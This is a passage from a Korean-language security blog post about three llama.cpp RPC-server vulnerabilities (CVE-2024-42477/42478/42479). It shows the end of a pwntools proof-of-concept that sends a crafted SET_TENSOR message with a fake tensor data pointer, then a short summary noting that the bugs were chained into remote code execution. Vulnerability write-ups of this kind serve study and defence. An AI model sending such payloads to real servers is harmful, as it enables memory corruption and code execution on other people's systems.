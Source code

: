 ```
            [p64(0)] * 10,  # src
            p64(0),  # view_src
            p64(0),  # view_offs
            p64(0xdeadbeef),  # data
            'a' * 64,  # name
            'x' * 4  # padding
        ],
    }
)
cmd = p8(SET_TENSOR)
content = flat(
    {
        0: [rpc_tensor_pd + p64(0) + p64(0x100),
            b'a'*0x100]
    }
)
input_size = p64(len(content))
pd+= cmd + input_size + content

p.send(pd)
p.recv(0x18)
p.close()

```

llama.cpp 에서 발생한 3개의 취약점들과 PoC 들을 알아보았습니다. 처음 발견하신 분에 따르면 AAR 과 AAW 로 RCE 를 하는데에 이용했다고 하네요. 

AI 시대인 요즘에도 LLM 관련 도구의 취약점을 pwntools 로 익스플로잇 하는 것을 보니 결국 타겟 선정이 중요한게 아닌가 싶습니다.


## Reference

- https://nvd.nist.gov/vuln/detail/CVE-2024-42479

- https://nvd.nist.gov/vuln/detail/CVE-2024-42478

- https://nvd.nist.gov/vuln/detail/CVE-2024-42477